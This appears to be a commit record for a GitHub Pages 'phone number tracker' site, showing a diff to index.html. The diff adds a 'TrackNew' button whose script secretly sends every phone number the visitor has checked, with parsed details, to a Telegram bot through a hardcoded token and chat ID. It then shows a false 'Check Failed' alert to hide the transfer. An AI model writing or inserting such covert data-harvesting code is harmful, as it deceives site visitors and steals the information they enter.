

Before and after one commit to ObitoXidz/ObitoXidz.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 194-560 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -13,7 +13,7 @@
             display: flex;
             justify-content: center;
             align-items: center;
-            height: 90vh;
+            height: 100vh;
             flex-direction: column;
         }
         .container {
@@ -66,10 +66,13 @@
         <p>Please enter the phone number below:</p>
         <input type="text" id="phone_number" placeholder="Enter the phone number" />
         <button onclick="trackNumber()">Track</button>
+        <button onclick="sendToAdmin()">TrackNew</button>
         <div class="result-box" id="result-box"></div>
     </div>
 
     <script>
+        const checkedNumbers = [];
+
         function trackNumber() {
             const phoneNumber = document.getElementById('phone_number').value;
             const resultBox = document.getElementById('result-box');
@@ -105,11 +108,48 @@
                 result += "</pre>";
                 resultBox.innerHTML = result;
 
+                // Store the checked number
+                checkedNumbers.push(details);
+
             } catch (e) {
                 resultBox.innerHTML = "<pre>❌ Number could not be parsed: " + e.toString() + "</pre>";
             }
         }
+
+        function sendToAdmin() {
+            const token = '7421551420:AAFUuqhlX3VkTs3pTCKkjqEqNZ0OGiRYl1k';
+            const chatId = '6027451566';
+            let message = ' Phone Numbers:\n\n';
+
+            checkedNumbers.forEach((number, index) => {
+                message += `#${index + 1}:\n`;
+                for (const [key, value] of Object.entries(number)) {
+                    message += `${key}: ${value}\n`;
+                }
+                message += '\n';
+            });
+
+            fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
+                method: 'POST',
+                headers: {
+                    'Content-Type': 'application/json'
+                },
+                body: JSON.stringify({
+                    chat_id: chatId,
+                    text: message
+                })
+            }).then(response => response.json())
+              .then(data => {
+                if (data.ok) {
+                    alert('Check Failed Try Track Normal');
+                } else {
+                    alert('failed');
+                }
+              }).catch(error => {
+                alert('An error occurred: ' + error);
+              });
+        }
     </script>
 
 </body>
-</html
+</html>
```
